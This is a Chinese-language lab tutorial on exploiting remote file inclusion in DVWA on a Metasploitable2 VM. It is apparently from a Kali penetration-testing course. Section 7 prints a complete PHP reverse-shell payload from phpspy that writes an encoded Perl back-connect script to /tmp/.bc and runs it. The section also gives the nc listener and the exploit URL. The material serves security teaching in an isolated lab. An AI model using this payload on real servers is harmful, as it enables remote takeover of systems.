










# 远程文件包含

## 1. 课程说明

本课程为动手实验教程，为了能说清楚实验中的一些操作会加入理论内容，也会精选最值得读的文章推荐给你，在动手实践的同时扎实理论基础。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

## 2. 学习方法

实验楼的 Kali 系列课程包含五个训练营，本训练营主要讲述 Web 应用攻击方法。课程包含20个实验，每个实验都提供详细的步骤和截图。适用于有一定 Linux 系统基础，想快速上手 Kali 渗透测试的同学。

学习方法是多实践，多提问。启动实验后按照实验步骤逐步操作，同时理解每一步的详细内容。

如果实验开始部分有推荐阅读的材料，请务必先阅读后再继续实验，理论知识是实践必要的基础。

## 3. 本节内容简介

本实验中我们初步接触 Kali Linux 和渗透测试的概念。需要依次完成下面几项任务：

- 远程文件包含简介
- 远程文件包含尝试
- 远程文件包含进阶

## 4. 推荐阅读

本节实验推荐阅读下述内容：

1. [File inclusion vulnerability 介绍](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)

## 5. 远程文件包含简介

### 5.1 远程文件包含漏洞简介

远程文件包含（Remote File Include，RFI）漏洞的产生与本地文件包含漏洞产生的原因相同。

因为一些功能的重用我们会把一些功能独立出来，写在单独的文件中，这样在后期维护的时候会方便很多，有时候有多个服务器上的应用都需要访问这个文件时，就会用到远程文件包含。

远程文件的包含与本地文件的包含不同，它不再是访问本机上的文件，它会通过网络之间的传输数据，设置是执行命令。

### 5.2 远程文件包含漏洞风险

本地文件包含，我们只能通过某种方式去查看其中的信息，亦或者是通过配合上传文件添置后门程序，若是防范措施做得好，即使攻击者看见部分的配置信息也不会有太大的损伤。

但是远程文件包含漏洞的危险性就会相较之大不少了。

因为他会包含我服务器上的 php 文件，其中写的什么内容他都会执行，我想让它干嘛就干嘛，直接攻破服务器让其为我们所用，在我们的掌控之下。

这样来看 RFI 比 LFI 的危害就会大很多。所以在远程文件包含的处理上我们应该更加的小心、谨慎。

### 5.2 环境启动

本次实验将先来了解 RFI 的工作，我们将依然使用 DVWA 的环境来实验。

与之前的实验相同，我们首先启动靶机、打开 dvwa，然后将实验的安全等级降到最低：

在实验桌面中，双击 Xfce 终端，打开终端：


使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：


等待大约四分钟，待得虚拟机完全启动之后我们打开桌面上的 Firefox：



访问我们的靶机系统所使用的 IP 地址`192.168.122.102`：


正常的启动靶机系统之后，我们访问其 IP 地址可以得到这样的一个页面。

点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：


为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：


然后调整安全的 level 到 low：


当看到页面的下方 Level 的显示变化后，说明修改成功了：



## 6. 远程文件包含初试

所谓的远程文件包含就是包含非本服务器上的文件，从其他地方 include，引用过来。

既然要从其他服务器引用过来，那么必须能通过某种方式建立连接才能读取包含的文件，我们将这样来模拟：在 Kali 上启动 Apache，使他们通过 http 来建立连接读取文件。

首先必然是启动 Kali 的虚拟机，相信大家对该操作已经非常熟悉了，这里便不再赘述了。

然后 ssh 登陆上 Kali 虚拟机，使用 `service apache2 start` 来启动 apache。

若是我们在 Firefox 中输入 Kali 虚拟机的 IP 地址`192.168.122.101`有这样的页面展示，说明我们成功的启动了 apache：



```
cd /var/www/html
```
我们可以使用 `vim phpinfo.txt` 在 apache 的默认根目录 `/var/www/html` 中创建编辑这样的文件:

```php
<?php

phpinfo();

?>
```

使用 `:wq` 保存退出。



然后在浏览器中访问 `192.168.122.101/phpinfo.txt` 这个 URL ，可以看到这样的页面：



说明能够正常访问被读取。

紧接着我们直接将这个 URL 地址复制到 dvwa 的 File Inclusion 页面的 page 参数中：



回车之后访问，我们得到这样的一个页面：


这样的情况是因为你没有把 security 级别从 high 调整到 low，所以无法访问。当调整到 low 的时候又会看到这样的信息：


这样的情况是因为 php 的配置参数中 allow_url_fopen 与 allow_url_include 没有打开，我们可以通过访问这个 URL 看到我们当前的 php 配置信息：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=../../phpinfo.php
```

往下翻我们可以看到确实是这样的：



若是这两个参数没有都打开我们是无法打开远程文件的，所以防范远程文件的包含请谨慎这两个参数的配置。

此时我们需要使用 `ssh msfadmin@target` 登陆到靶机上修改此参数，我们才能继续实验（记住在 实验楼账户的终端上 ssh）：



在终端中是用 `sudo vim /etc/php5/cgi/php.ini` 来修改 php 的全局配置文件：


找到我们刚刚看到的两个配置参数：



使用 `:wq` 保存我们的修改。

然后使用 `sudo /etc/init.d/apache2 restart` 命令重启一下，使得配置文件生效：


此时我们再次尝试访问这个 URL，就可以正常访问了：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/phpinfo.txt
```

由此可以看出它能够正常的执行远在我服务器上的 phpinfo.txt 文件，这就是远程文件包含，并且我们可以看到配置，其中 allow_url_include 的设置是 On，说明就是在靶机中执行的，因为默认情况下在 php5 中该配置选项是 Off 的。

此处说明一下为什么取名是 phpinfo.txt 而不是 phpinfo.php，原因是 Kali 的环境支持 php，能够解析并执行 php，所以在 include 的时候，首先判断该文件的后缀是否为 .php，然后看本地能否解析、运行 php，若是这两个条件都符合就会在 Kali 中执行然后把结果返回给 include 它的程序，反之 include 的程序就会将 include 内容读取到本地，然后在本地执行。

也就是说若是取名为 phpinfo.php 的话，就会在 Kali 本地中执行这段小程序，然后将得到的结果返回给 dvwa，给我们呈现出来，这样做是没有意义，从两个角度来讲：

- 从开发的角度来说，include 文件是为了重用代码，不用把已经实现的功能写很多遍，调用其中的函数或者类什么的，但是若是在远程设备上执行了返回结果过来是没有办法调用上面的函数、类等等。
- 从渗透测试的角度来讲，是为了攻击你的服务器，使用该机器上的功能，查看敏感信息，在我自己的服务器上运行，返回我自己服务器上的信息给我干嘛呢？

所以此处我们将文件的后缀名修改成 .txt，这样就不会在本地执行了，而 include 过去之后，解析文本便不是靠后缀名，其中若是没有 `<?php ?>` 的标志认定只不是一个 php 文件，直接将内容打印在页面上，若是有 `<?php ?>` 的标志位便解析，然后运行。

## 7. 远程文件包含进阶

若还是只能这样查看信息的话，就不能说他的危害很大了。

上述的实验我们只是在上面简单的执行了一个小程序而已，我们若是放一个反弹 shell 呢？挂个木马？嘿嘿，就和我们正常的 ssh 登陆上去差不多了。

所谓的反弹 shell 就是 reverse shell，在机器上开启某个端口，用该端口向我们的设备发起请求，只要我们监听了该端口，并且该端口没有被防火墙所阻挡我们就可以连接上发起请求的设备，就像使用 ssh 登陆 shell 一样目标机器。

通过我们在 Kali 设备的 Apache 根目录下使用 `vim test.txt` 创建并编辑文件，该文件中有输入这样的一些内容：

```php
<?php 

function which($pr) { 
$path = execute("which $pr"); 
return ($path ? $path : $pr); 
} 
function execute($cfe) { 
$res = ''; 
if ($cfe) { 
if(function_exists('exec')) { 
@exec($cfe,$res); 
$res = join("\n",$res); 
} elseif(function_exists('shell_exec')) { 
$res = @shell_exec($cfe); 
} elseif(function_exists('system')) { 
@ob_start(); 
@system($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(function_exists('passthru')) { 
@ob_start(); 
@passthru($cfe); 
$res = @ob_get_contents(); 
@ob_end_clean(); 
} elseif(@is_resource($f = @popen($cfe,"r"))) { 
$res = ''; 
while(!@feof($f)) { 
$res .= @fread($f,1024); 
} 
@pclose($f); 
} 
} 
return $res; 
} 
function cf($fname,$text){ 
if($fp=@fopen($fname,'w')) { 
@fputs($fp,@base64_decode($text)); 
@fclose($fp); 
} 
} 
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
$usedb = array('perl'=>'perl','c'=>'c'); 
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj". 
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR". 
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT". 
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI". 
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi". 
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw=="; 
cf('/tmp/.bc',$back_connect); 
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &"); 


?> 
```

该程序中有这两个变量：

```
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
```

yourip 是当前设备的 IP 地址，yourport 可以随便设置，主要不要冲突即可。

> **注意**：这是从 phpspy 中的截取的反弹 shell 的代码

然后使用 `:wq` 保存并退出

接着我们使用 nc 命令来监听我们刚刚所设置的端口：

```
nc -nvlp 1111
```

我们会看到终端中有 `listening on [any] 1111` 的提示，若说明我们正在监听这个端口，只要有请求进来我们就会连接上

然后我们在 firefox 中访问这样的 URL：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/test.txt
```

页面上我们感觉似乎没有什么变化，但是返回我们的终端可以看到：


我们已经连接上了，我们可以直接输入命令，这并不是卡死了：



pwd、ls、vim 等等大部分命令基本都可以用了。

我们就像 ssh 一样登陆上了目标主机，只是我们登陆的账户是 www-data，权限不是太高，但这样来说已经可以做很多事情了。

这就是远程文件包含漏洞所带来的危害性。

在攻击的过程中我们也发现了这样的漏洞几率很小，首先对方会使用 include 来包含文件，并且过滤的条件很宽松，同时对方还打开不安全的配置选项，这样才会使得我们攻击攻击成功。

所以使用到远程文件包含的漏洞，病逝我们能够利用上的几率非常的小，但是我们也得学习，知道有这种攻击方式的存在，这样才能发现这样的漏洞。

## 8. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- 远程文件包含简介
- 远程文件包含尝试
- 远程文件包含进阶

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 9. 作业

1. 查看 medium 的防范措施，并尝试是否能够执行，同时尝试上节课所讲过绕过的方法。